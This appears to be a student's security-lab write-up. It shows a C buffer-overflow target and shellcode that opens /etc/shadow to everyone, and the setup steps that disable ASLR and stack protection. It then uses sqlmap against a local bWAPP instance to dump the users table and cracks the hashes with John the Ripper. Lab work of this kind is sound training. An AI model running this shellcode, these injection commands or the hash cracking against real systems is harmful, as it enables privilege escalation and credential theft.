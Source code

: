# 22110088 - Bui Tho Anh Tu

## Task 1: Software buffer overflow attack
Given a vulnerable C program 
```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
Compile the shellcode:
```bash
gcc -g -fno-stack-protector -z execstack -o shellcode shellcode.c -mpreferred-stack-boundary=2
```
Compile the C program:
```bash
gcc -g -fno-stack-protector -z execstack -o vulnerability vulnerability.c -mpreferred-stack-boundary=2
```
Make the shellcode executed as root:
```bash
sudo chown root shellcode
sudo chmod 4777 shellcode
```
Disable the Address Space Layout Randomization (ASLR)
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

Create a symbolic link to /bin/sh
```bash
sudo ln -sf /bin/zsh /bin/sh
```

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Select SQL Injection hack
![Select sql injection](https://github.com/user-attachments/assets/0c217fd8-30ad-4f84-8320-73229277a174)

Get the URL at the page
![Get the URL](https://github.com/user-attachments/assets/008a3c9e-32fb-45ff-9369-d9f863d58934)

Get the page cookies through Chrome DevTools
![Get cookies thourgh Chrom Devtool](https://github.com/user-attachments/assets/840826ad-4439-42b3-b5bd-d72fcd661fb5)

Find the available databases with the cookies
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --dbs 
```
![Available DBs](https://github.com/user-attachments/assets/c6607de6-4b69-43df-af84-d7d0d0fbc921)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
Get the available tables in the database
```bash
 sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms --tables
```
![Available tables](https://github.com/user-attachments/assets/a13b0d64-ded1-4dbc-8a82-72597e3622f4)

### Database: General (40 Tables)
| CHARACTER_SETS  | COLLATIONS  | COLLATION_CHARACTER_SET_APPLICABILITY  | COLUMN_PRIVILEGES  | FILES  |  
|---|---|---|---|---|  
| GLOBAL_STATUS  | GLOBAL_VARIABLES  | INNODB_BUFFER_PAGE  | INNODB_BUFFER_PAGE_LRU  | INNODB_BUFFER_POOL_STATS  |  
| INNODB_CMP  | INNODB_CMPMEM  | INNODB_CMPMEM_RESET  | INNODB_CMP_RESET  | INNODB_LOCKS  |  
| INNODB_LOCK_WAITS  | INNODB_TRX  | KEY_COLUMN_USAGE  | PARAMETERS  | PROFILING  |  
| REFERENTIAL_CONSTRAINTS  | ROUTINES  | SCHEMATA  | SCHEMA_PRIVILEGES  | SESSION_STATUS  |  
| SESSION_VARIABLES  | STATISTICS  | TABLESPACES  | TABLE_CONSTRAINTS  | TABLE_PRIVILEGES  |  
| USER_PRIVILEGES  | VIEWS  | COLUMNS  | ENGINES  | EVENTS  |  
| PARTITIONS  | PLUGINS  | PROCESSLIST  | TABLES  | TRIGGERS  |

### Database: bWAPP (5 Tables)
| blog  | heroes  | movies  | users  | visitors  |

### Database: mysql (24 Tables)
| event  | host  | plugin  | user  | columns_priv  |  
| db  | func  | general_log  | help_category  | help_keyword  |  
| help_relation  | help_topic  | ndb_binlog_index  | proc  | procs_priv  |  
| proxies_priv  | servers  | slow_log  | tables_priv  | time_zone  |  
| time_zone_leap_second  | time_zone_name  | time_zone_transition  | time_zone_transition_type  |

### Database: performance_schema (17 Tables)
| cond_instances  | events_waits_current  | events_waits_history  | events_waits_history_long  | events_waits_summary_by_instance  |  
| events_waits_summary_by_thread_by_event_name  | events_waits_summary_global_by_event_name  | file_instances  | file_summary_by_event_name  | file_summary_by_instance  |  
| mutex_instances  | performance_timers  | rwlock_instances  | setup_consumers  | setup_instruments  |  
| setup_timers  | threads  |


Get the columns in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --columns
```
![columns in users](https://github.com/user-attachments/assets/33feaf68-dce9-4390-b925-f38b33e26bee)

Get all users in users table in bWAPP database
```bash
sqlmap -u "http://localhost:8025/sqli_1.php" --cookie="PHPSESSID=ldg4i48a7bhj3iiagri8s3frs6; security_level=0" --forms -D bWAPP -T users --dump
```
![users info](https://github.com/user-attachments/assets/5a609702-ac37-4e04-adc0-7b2386d52871)
![users info 2](https://github.com/user-attachments/assets/49834e33-b153-4f75-bf7b-22f5b176f6d4)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
Extract the hashed password collected users from the previous question
```bash
Import-Csv "C:\Users\ADMIN\AppData\Local\sqlmap\output\localhost\dump\bWAPP\users.csv" | ForEach-Object { $_.'password' } | Out-File -FilePath "C:\Users\ADMIN\Downloads\passwords.txt"
```
Output
![hashed stored](https://github.com/user-attachments/assets/d6927cdf-e99f-4026-9d38-422ea894a01b)
![Output stored](https://github.com/user-attachments/assets/1cd28001-6256-47e6-944f-c218788ede24)

Remove the decrypted password from the file
Use John the Ripper to crack the password
```bash
.\john --format=Raw-SHA1 C:\Users\ADMIN\Downloads\passwords.txt
```
![cracked passwords using john](https://github.com/user-attachments/assets/e72e0f3f-b843-4b7f-8db7-906bf9c250a5)
